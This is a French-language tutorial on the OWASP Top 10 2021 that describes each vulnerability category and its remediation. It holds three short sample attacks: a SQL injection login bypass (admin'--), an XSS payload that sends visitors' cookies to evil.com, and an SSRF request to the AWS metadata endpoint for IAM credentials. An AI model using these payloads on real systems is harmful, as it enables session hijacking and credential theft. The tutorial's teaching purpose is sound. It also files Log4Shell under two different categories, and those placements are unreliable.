


# Vulnérabilités Web — OWASP Top 10

<div
  class="omny-meta"
  data-level="🟢 Débutant & 🟡 Intermédiaire"
  data-version="OWASP Top 10 2021"
  data-time="35-40 minutes">
</div>

## Introduction

!!! quote "Analogie pédagogique"
    _Imaginez un **rapport annuel des accidents de la route** qui identifie les 10 causes d'accidents les plus fréquentes et les plus mortelles — vitesse excessive, non-respect des priorités, téléphone au volant. Ce rapport ne recense pas tous les accidents possibles : il identifie ceux qui causent le plus de victimes afin que les campagnes de prévention, les contrôles routiers et les formations des conducteurs se concentrent là où l'impact est maximal. **L'OWASP Top 10 fonctionne exactement ainsi** pour les applications web : il identifie les 10 catégories de vulnérabilités qui causent le plus de compromissions réelles, permettant aux développeurs, aux auditeurs et aux équipes sécurité de concentrer leurs efforts là où ils auront le plus d'impact._

**L'OWASP Top 10** (*Open Web Application Security Project*) est le **référentiel de référence mondial des vulnérabilités applicatives web les plus critiques**. Publié et mis à jour par la fondation OWASP — organisation à but non lucratif — depuis 2003, il est révisé tous les 3 à 4 ans sur la base de données réelles de vulnérabilités collectées auprès d'organisations dans le monde entier.

La version **2021** est la référence actuelle. Elle introduit trois nouvelles catégories par rapport à la version 2017 : *Insecure Design*, *Software and Data Integrity Failures*, et *Server-Side Request Forgery (SSRF)* — reflétant l'évolution du paysage des menaces applicatives.

!!! info "Pourquoi l'OWASP Top 10 est essentiel ?"
    L'OWASP Top 10 est cité comme référentiel dans ISO 27002 (contrôle 8.28 — codage sécurisé), NIS2 (exigences de sécurité applicative) et DORA (sécurité du développement logiciel). C'est le langage commun entre les équipes de développement, les pentesters, les RSSI et les auditeurs pour parler des risques applicatifs. Ne pas le maîtriser, c'est ne pas maîtriser le vocabulaire de la sécurité applicative.

<br>

---

## Pour repartir des bases

### Position dans la gestion des vulnérabilités

L'OWASP Top 10 se distingue des CVE/CVSS[^1] sur un point fondamental :

| Dimension | CVE/CVSS | OWASP Top 10 |
|-----------|----------|--------------|
| **Périmètre** | Vulnérabilités spécifiques dans des produits identifiés | Catégories génériques de failles dans les applications web |
| **Niveau** | Vulnérabilité précise (ex : Log4Shell dans Log4j 2.x) | Famille de vulnérabilités (ex : Injection) |
| **Usage principal** | Patch management, veille CVE | Développement sécurisé, audit applicatif |
| **Identifiant** | CVE-ANNÉE-NUMÉRO | A01:2021, A02:2021... |

> Un CVE peut correspondre à une ou plusieurs catégories OWASP. Log4Shell (CVE-2021-44228) relève de **A03:2021 Injection**. Une faille XSS dans un CMS relève de **A03:2021** également.

### Relation avec ISO 27002

Le contrôle **8.28 — Codage sécurisé** d'ISO 27002:2022 mentionne explicitement l'OWASP Top 10 comme référentiel de bonnes pratiques pour le développement sécurisé. ISO 27001 ne liste pas de vulnérabilités spécifiques — l'OWASP Top 10 en est la déclinaison applicative opérationnelle.

<br>

---

## Les 10 catégories de vulnérabilités

### Vue d'ensemble 2021



<br>

### A01:2021 — Broken Access Control

**Contrôle d'accès défaillant**

**Description :**  
Un contrôle d'accès défaillant survient quand une application n'applique pas correctement les restrictions sur ce que les utilisateurs authentifiés sont autorisés à faire. Le résultat : des utilisateurs accèdent à des fonctionnalités ou des données auxquelles ils n'ont pas le droit.

**Exemples concrets :**

- Modifier l'ID dans l'URL `/facture?id=12345` → accéder à la facture `id=12346` appartenant à un autre client (IDOR[^2])
- Un utilisateur standard accède à `/admin/users` simplement en tapant l'URL
- API REST retournant des données sensibles d'autres utilisateurs sans vérifier les autorisations
- Escalade de privilèges : un utilisateur modifie son rôle de `user` à `admin` dans un paramètre POST

**Remédiation :**
- Principe du **moindre privilège** : par défaut, tout accès est refusé
- **Contrôles côté serveur** : ne jamais se fier aux contrôles côté client
- **Journalisation** des échecs de contrôle d'accès
- **Tests d'autorisation** systématiques dans les revues de code

---

### A02:2021 — Cryptographic Failures

**Défaillances cryptographiques**

**Description :**  
Anciennement *Sensitive Data Exposure* (exposition des données sensibles), cette catégorie couvre les failles liées au chiffrement : chiffrement absent, algorithmes faibles, gestion incorrecte des clés, transmission de données sensibles en clair.

**Exemples concrets :**

- Données de carte bancaire stockées en clair dans la base de données
- Transmission de mots de passe en HTTP (non chiffré) sur le réseau
- Utilisation de MD5 ou SHA-1 pour hacher les mots de passe (algorithmes cassables)
- Clés de chiffrement stockées dans le code source ou des fichiers de configuration
- Certificats TLS expirés ou utilisant TLS 1.0/1.1 (protocoles obsolètes)

**Remédiation :**
- **Chiffrement en transit** : TLS 1.2+ obligatoire pour toutes les communications
- **Chiffrement au repos** : AES-256 pour les données sensibles
- **Hachage des mots de passe** : bcrypt, Argon2, scrypt uniquement
- **Gestion des clés** : vault dédié (HashiCorp Vault, AWS KMS) — jamais dans le code

---

### A03:2021 — Injection

**Injections**

**Description :**  
Les injections surviennent quand des données non fiables sont envoyées à un interpréteur (SQL, LDAP, OS, XML...) en tant que partie d'une commande ou d'une requête. L'attaquant peut ainsi exécuter des commandes non autorisées ou accéder à des données sans autorisation. Le XSS (Cross-Site Scripting) est intégré à cette catégorie depuis 2021.

**Exemples concrets :**

**Injection SQL :**
```sql
-- Requête vulnérable
SELECT * FROM users WHERE login='$login' AND password='$password'

-- Entrée malveillante : login = admin'--
-- Résultat : authentification bypassée
SELECT * FROM users WHERE login='admin'--' AND password='...'
```
_La portion après `--` est commentée : le mot de passe n'est plus vérifié._

**Cross-Site Scripting (XSS) :**
```html
<!-- Champ de commentaire qui affiche directement l'entrée -->
Votre commentaire : <script>document.location='https://evil.com/steal?c='+document.cookie</script>
```
_Les cookies de session des visiteurs sont envoyés à l'attaquant._

**Remédiation :**
- **Requêtes paramétrées** (*prepared statements*) pour toutes les interactions avec la base de données — jamais de concaténation de chaînes
- **Validation et assainissement** des entrées utilisateur (whitelist, pas blacklist)
- **Échappement** de toutes les données avant affichage dans le HTML (pour XSS)
- **WAF** (Web Application Firewall) comme défense en profondeur

---

### A04:2021 — Insecure Design

**Conception non sécurisée** *(Nouveauté 2021)*

**Description :**  
Catégorie nouvelle qui distingue les failles de conception des failles d'implémentation. Un design non sécurisé ne peut pas être corrigé par un simple patch — il nécessite une refonte architecturale. Elle représente l'échec du principe *security by design*.

**Exemples concrets :**

- Flux de récupération de mot de passe reposant sur des "questions secrètes" (facilement devinables)
- Absence de limite du nombre de tentatives de connexion (pas de protection contre le bruteforce)
- Architecture qui permet à n'importe quel composant d'accéder directement à la base de données (pas de séparation des responsabilités)
- Logique métier permettant d'appliquer plusieurs fois un code promo sur une commande

**Remédiation :**
- **Modélisation des menaces** (*threat modeling*) dès la phase de conception
- **Revue de sécurité de l'architecture** avant développement
- Intégration de **principes de sécurité par conception** : moindre privilège, défense en profondeur, fail secure

---

### A05:2021 — Security Misconfiguration

**Mauvaises configurations de sécurité**

**Description :**  
La misconfiguration est la catégorie la plus répandue. Elle couvre toutes les erreurs de configuration : paramètres par défaut non modifiés, services non nécessaires actifs, messages d'erreur révélateurs, répertoires exposés, permissions excessives.

**Exemples concrets :**

- Interface d'administration exposée sur Internet avec les identifiants par défaut (`admin/admin`)
- Pages d'erreur affichant des stack traces révélant la technologie et la version utilisée
- Compartiment S3 AWS configuré en accès public
- Headers de sécurité HTTP absents (Content-Security-Policy, X-Frame-Options, HSTS)
- Services inutilisés actifs (FTP, Telnet, ports ouverts non nécessaires)
- XML External Entity (XXE) — parseur XML mal configuré permettant des attaques

**Remédiation :**
- **Hardening systématique** selon les CIS Benchmarks ou les recommandations ANSSI
- **Revue des configurations** à chaque déploiement
- **Headers de sécurité** HTTP configurés sur tous les serveurs web
- **Désactivation** de tous les services, ports et fonctionnalités non utilisés
- **Séparation** des environnements (dev, staging, production)

---

### A06:2021 — Vulnerable and Outdated Components

**Composants vulnérables et obsolètes**

**Description :**  
Utilisation de bibliothèques, frameworks, modules tiers contenant des vulnérabilités connues (CVE). C'est le domaine du *Software Supply Chain Security* et des SBOM[^3].

**Exemples concrets :**

- Log4Shell (CVE-2021-44228) : millions d'applications Java utilisaient Log4j sans mise à jour
- Struts2 (CVE-2017-5638) : exploité dans la compromission d'Equifax (145 millions de données)
- Utilisation de jQuery 1.x ou Angular 1.x non supportées avec des vulnérabilités connues
- Image Docker basée sur Ubuntu 20.04 sans mise à jour depuis 18 mois

**Remédiation :**
- **Inventaire des dépendances** (SBOM) — lister toutes les bibliothèques utilisées et leurs versions
- **Veille CVE** automatisée sur les composants utilisés (Dependabot, Snyk, OWASP Dependency-Check)
- **Politique de mise à jour** : patch management incluant les dépendances applicatives
- **Images de base** maintenues à jour dans les pipelines CI/CD

---

### A07:2021 — Identification and Authentication Failures

**Défaillances d'identification et d'authentification**

**Description :**  
Failles dans les mécanismes d'authentification permettant à des attaquants d'usurper des identités : mots de passe faibles acceptés, sessions mal gérées, absence de MFA sur les comptes sensibles.

**Exemples concrets :**

- Application acceptant des mots de passe comme `password`, `123456`, `admin`
- Sessions non invalidées après déconnexion (token JWT[^4] valide indéfiniment)
- URLs contenant des identifiants de session (exposés dans les logs)
- Absence de protection contre le credential stuffing (test automatisé de couples login/mot de passe issus de fuites)

**Remédiation :**
- **MFA obligatoire** pour tous les comptes à privilèges et les actions sensibles
- **Politique de mots de passe robuste** : longueur minimum, vérification contre les listes de mots de passe compromis (Have I Been Pwned)
- **Invalidation des sessions** à la déconnexion et expiration automatique
- **Rate limiting** et lockout temporaire après N tentatives échouées

---

### A08:2021 — Software and Data Integrity Failures

**Défaillances d'intégrité des données et des logiciels** *(Nouveauté 2021)*

**Description :**  
Catégorie couvrant les failles liées à l'absence de vérification de l'intégrité des mises à jour logicielles, des données critiques et des pipelines CI/CD. Intègre également les attaques sur la supply chain logicielle.

**Exemples concrets :**

- Application téléchargeant des mises à jour sans vérifier leur signature cryptographique (attaque man-in-the-middle possible)
- Pipeline CI/CD compromis permettant d'injecter du code malveillant dans les builds de production
- Désérialisation[^5] non sécurisée : un objet sérialisé fourni par l'utilisateur est désérialisé sans validation
- Attaque SolarWinds : build compromis, mises à jour légitimes contenant un backdoor

**Remédiation :**
- **Vérification des signatures** de toutes les mises à jour et dépendances tierces
- **Sécurisation du pipeline CI/CD** : accès restreints, audit des modifications, images de base signées
- **Jamais de désérialisation** d'objets provenant de sources non fiables
- **Revue de sécurité** des dépendances open source avant intégration

---

### A09:2021 — Security Logging and Monitoring Failures

**Insuffisances de la journalisation et de la surveillance**

**Description :**  
Sans journalisation et surveillance adéquates, les attaques ne sont pas détectées ou le sont trop tard. Cette catégorie couvre l'absence de logs, des logs insuffisants, des alertes non configurées, et l'absence de plan de réponse aux incidents.

**Exemples concrets :**

- Tentatives de connexion échouées non journalisées → bruteforce indétectable
- Logs d'audit effaçables par les utilisateurs → altération des preuves
- Absence de SIEM ou d'alertes : une compromission découverte 200 jours après le début de l'attaque
- Aucun test de la procédure de réponse aux incidents

**Remédiation :**
- **Journalisation complète** : authentifications (réussies et échouées), accès aux données sensibles, erreurs applicatives
- **SIEM** centralisé avec corrélation des événements et alertes automatiques
- **Durée de rétention** des logs adaptée (min. 1 an pour les logs de sécurité)
- **Protection des logs** : stockage immuable, accès restreints, intégrité vérifiable
- **Tests de détection** : vérifier que les alertes fonctionnent (simulation d'attaques)

---

### A10:2021 — Server-Side Request Forgery (SSRF)

**Falsification de requêtes côté serveur** *(Nouveauté 2021)*

**Description :**  
Le SSRF survient quand une application web effectue des requêtes HTTP vers des ressources désignées par l'utilisateur, sans valider correctement l'URL cible. L'attaquant peut ainsi amener le serveur à effectuer des requêtes vers des ressources internes inaccessibles depuis l'extérieur.

**Exemples concrets :**

```
-- Fonctionnalité légitime : récupérer une image depuis une URL
GET /api/fetch-image?url=https://example.com/image.jpg

-- Exploitation SSRF :
GET /api/fetch-image?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/
-- Dans AWS, cette URL retourne les credentials IAM de l'instance EC2
-- L'attaquant obtient des clés d'accès AWS depuis l'extérieur
```

**Remédiation :**
- **Validation stricte** des URLs fournies par l'utilisateur (whitelist des domaines autorisés)
- **Désactivation** des redirections HTTP automatiques
- **Segmentation réseau** : le serveur applicatif ne doit pas accéder directement aux services internes sensibles
- **Filtrage** des plages d'adresses internes (172.16.0.0/12, 10.0.0.0/8, 192.168.0.0/16) dans les requêtes sortantes

<br>

---

## OWASP Top 10 et la chaîne GRC

### Exigences réglementaires référençant l'OWASP Top 10

| Réglementation / Référentiel | Article / Contrôle | Référence à OWASP |
|-----------------------------|-------------------|-------------------|
| **ISO 27002:2022** | 8.28 Codage sécurisé | Mention explicite de l'OWASP Top 10 |
| **NIS2** | Art. 21.2.e (sécurité développement) | OWASP comme bonne pratique de référence |
| **DORA** | Art. 9 (mesures de sécurité applicatives) | OWASP en référence sectorielle |
| **PCI DSS v4** | Exigence 6 (sécurité des systèmes) | OWASP Top 10 obligatoirement couvert |
| **ISO 27001 DdA** | A.8.25-8.28 | OWASP comme guide d'implémentation |

### Intégration dans le SDLC sécurisé



<br>

---

## Écueils à éviter

!!! warning "Pièges courants"

    **Traiter l'OWASP Top 10 comme une checklist exhaustive :**  
    _L'OWASP Top 10 couvre les 10 catégories les plus critiques — pas toutes les vulnérabilités possibles. Des vulnérabilités importantes (clickjacking, CSRF, XXE) peuvent ne pas figurer dans le Top 10 tout en étant présentes dans votre application._

    **Confondre OWASP Top 10 et CVE :**  
    _L'OWASP Top 10 est un référentiel de catégories génériques. Il ne remplace pas la veille CVE sur les composants utilisés. Log4Shell est un CVE relevant de la catégorie A06 — vous devez patcher Log4j (CVE) ET avoir des pratiques de mise à jour des composants (A06)._

    **Faire une revue OWASP Top 10 une fois par an :**  
    _La sécurité applicative est un processus continu. Les revues OWASP doivent être intégrées dans les processus de développement (PR reviews, CI/CD), pas uniquement réalisées lors d'audits ponctuels._

<br>

---

## Conclusion

!!! quote "L'OWASP Top 10 est la grammaire de la sécurité applicative."
    Maîtriser l'OWASP Top 10, c'est maîtriser les fondamentaux de la sécurité des applications web. Ces 10 catégories expliquent la grande majorité des compromissions applicatives réelles — non pas parce que les attaquants sont peu créatifs, mais parce que ces vulnérabilités sont systématiquement présentes dans les applications mal sécurisées et systématiquement exploitées par les outils d'attaque automatisés.

    Pour un RSSI ou un auditeur GRC, l'OWASP Top 10 est le référentiel qui permet de parler le même langage que les équipes de développement et les pentesters, de structurer les exigences de sécurité applicative dans les politiques et contrats, et de démontrer aux auditeurs ISO 27001 ou PCI DSS que les risques applicatifs sont identifiés et traités.

    > La prochaine étape logique est d'explorer le **Patch Management** — le processus structuré qui permet de traiter systématiquement les vulnérabilités identifiées (CVE et OWASP) avant qu'elles ne soient exploitées.

<br>

---

## Ressources complémentaires

- **OWASP Top 10:2021** : owasp.org/Top10
- **OWASP Testing Guide** : Guide de test complet des vulnérabilités applicatives
- **OWASP ASVS** : Application Security Verification Standard (niveaux de maturité applicative)
- **OWASP Cheat Sheet Series** : Fiches de remédiation par vulnérabilité
- **NVD / CVE** : nvd.nist.gov (pour les CVE correspondant aux catégories OWASP)


[^1]: **CVE/CVSS** : voir la fiche dédiée CVE & CVSS dans cette section pour le détail du système d'identification et de scoring des vulnérabilités spécifiques.
[^2]: **IDOR** (*Insecure Direct Object Reference*, ou Référence directe non sécurisée à un objet) est une sous-catégorie de A01 consistant à accéder directement à un objet (enregistrement de base de données, fichier) en modifiant un identifiant dans l'URL ou le corps de la requête, sans que l'application vérifie si l'utilisateur est autorisé à accéder à cet objet spécifique.
[^3]: Un **SBOM** (*Software Bill of Materials*, ou Nomenclature des composants logiciels) est une liste exhaustive de tous les composants logiciels d'une application — bibliothèques, frameworks, dépendances tierces — avec leurs versions. Il permet d'identifier rapidement si l'application est affectée par une CVE publiée sur l'un de ses composants.
[^4]: Un **JWT** (*JSON Web Token*) est un standard ouvert (RFC 7519) pour créer des tokens d'accès qui peuvent contenir des claims (affirmations sur l'utilisateur). En sécurité applicative, les JWT mal implémentés peuvent permettre des attaques (algorithme `none`, secret faible, absence de validation de l'expiration).
[^5]: La **désérialisation** est le processus inverse de la sérialisation : convertir des données formatées (JSON, XML, format binaire propriétaire) en objets applicatifs. La désérialisation non sécurisée permet à un attaquant de créer des objets malveillants qui, une fois désérialisés par l'application, exécutent du code arbitraire.